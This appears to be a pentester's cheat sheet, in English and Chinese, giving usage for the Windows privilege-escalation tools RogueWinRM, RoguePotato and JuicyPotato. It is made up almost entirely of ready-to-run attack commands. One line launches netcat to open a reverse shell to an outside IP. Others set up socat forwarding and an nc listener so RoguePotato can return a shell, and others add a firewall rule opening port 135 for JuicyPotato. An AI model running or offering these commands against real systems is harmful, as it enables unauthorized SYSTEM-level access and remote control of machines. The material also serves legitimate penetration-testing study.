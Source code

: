 **Rogue WinRM**

```bat
# Mandatory args:
-p <program>: program to launch

# Optional args:
-a <argument>: command line argument to pass to program (default NULL)
-l <port>: listening port (default 5985 WinRM)
-d : Enable Debugging output

# running an interactive cmd
RogueWinRM.exe -p C:\windows\system32\cmd.exe

# running netcat reverse shell
RogueWinRM.exe -p C:\windows\temp\nc64.exe -a "10.0.0.1 3001 -e cmd"
```

**Rogue Potato**

```bat
# set up a network redirector/port forwarder on kali(must 135 as source port) and redirecting back to Remote on any tcp port
## forwarding kali port 135 to port 9999 on windows
sudo socat tcp-listen:135,reuseaddr,fork tcp:targetip:9999

# start listen on kali
nc -nvlp 4444

# exploit on target, reverse.exe connect 4444
## -r, remote ip/kali ip
## -l, listening port
## -e, reverse shell executable path
RoguePotato.exe -r kaliip -e "C:\PrivEsc\reverse.exe" -l 9999
```

**Juicy Potato**
+ SeImpersonate权限, `-t t`
+ SeAssignPrimaryToken权限, `-t u`
+ 均开启，`-t *`
+ 均未开启，无法提权
+ RPC端口是否135， 非135时 `-n portnum`
+ 选择系统未占用的端口作为监听端口，`-l`

```bat
# 添加防火墙规则，允许135端口入站
netsh advfirewall firewall add rule name=“135” protocol=TCP dir=in localport=135 action=allow

# paras 
T:\>JuicyPotato.exe
JuicyPotato v0.1
## Mandatory args:
## -t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
## -p <program>: program to launch
## -l <port>: COM server listen port

## Optional args:
## -m <ip>: COM server listen address (default 127.0.0.1)
## -a <argument>: command line argument to pass to program (default NULL)
## -k <ip>: RPC server ip address (default 127.0.0.1)
## -n <port>: RPC server listen port (default 135)
## -c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
## -z only test CLSID and print token's user

# 利用
whoami /all
whoami /priv
```
